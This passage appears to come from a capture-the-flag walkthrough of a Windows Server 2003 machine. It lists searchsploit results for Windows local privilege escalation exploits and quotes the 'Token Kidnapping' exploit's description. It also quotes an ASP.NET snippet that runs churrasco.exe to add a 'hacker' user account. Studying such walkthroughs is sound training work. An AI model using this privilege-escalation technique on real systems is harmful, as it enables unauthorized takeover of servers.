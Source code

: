 ```bash
Microsoft Windows XP SP3 (x86) / 2003 SP2 (x86) - 'NDProxy' Local Privilege Escal | windows_x86/local/37732.c
Microsoft Windows XP/2000/2003 - Desktop Wall Paper System Parameter Privilege Es | windows/local/33012.c
Microsoft Windows XP/2000/2003 - Keyboard Event Privilege Escalation              | windows/local/26222.c
Microsoft Windows XP/2003 - 'afd.sys' Local Privilege Escalation (K-plugin) (MS08 | windows/local/6757.txt
Microsoft Windows XP/2003 - 'afd.sys' Local Privilege Escalation (MS11-080)       | windows/local/18176.py
Microsoft Windows XP/2003 - RPCSS Service Isolation Privilege Escalation          | windows/local/32892.txt
Microsoft Windows XP/Vista/2000/2003 - Double-Free Memory Corruption Privilege Es | windows/local/33593.c
Microsoft Windows XP/Vista/2000/2003/2008 Kernel - Usermode Callback Privilege Es | windows/dos/31585.c
Microsoft Windows XP/Vista/2003/2008 - WMI Service Isolation Privilege Escalation | windows/local/32891.txt
ViRobot Desktop 5.5 and Server 3.5 < 2008.8.1.1 - Local Privilege Escalation      | windows/local/15764.txt
Zoho ManageEngine ADManager Plus 6.6 (Build < 6659) - Privilege Escalation        | windows/local/46707.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

Using some [Google Fu](https://www.google.com/search?q=seimpersonate+windows+2003+server+exploit) again to look for interesting privilege escaltion. The following title `Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation` is one of the things looking interesting. Let's open the exploit, this was identified with searchsploit as well.
```
https://www.exploit-db.com/exploits/6705
```
The exploit description is very interesting.
```
Basically if you can run code under any service in Win2k3 then you can own Windows, this is because Windows 
services accounts can impersonate.  Other process (not services) that can impersonate are IIS 6 worker processes 
so if you can run code from an ASP .NET or classic ASP web application then you can own Windows too. If you provide 
shared hosting services then I would recomend to not allow users to run this kind of code from ASP.

```
If this is true, we can escalate our privileges.
Reading further, the example is explained:
```

-Exploiting IIS 6 with ASP .NET :
...
System.Diagnostics.Process myP = new System.Diagnostics.Process();
myP.StartInfo.RedirectStandardOutput = true;
myP.StartInfo.FileName=Server.MapPath("churrasco.exe");
myP.StartInfo.UseShellExecute = false;
myP.StartInfo.Arguments= " \"net user /add hacker\" ";
myP.Start();
string output = myP.StandardOutput.ReadToEnd();
Response.Write(output);
...
```
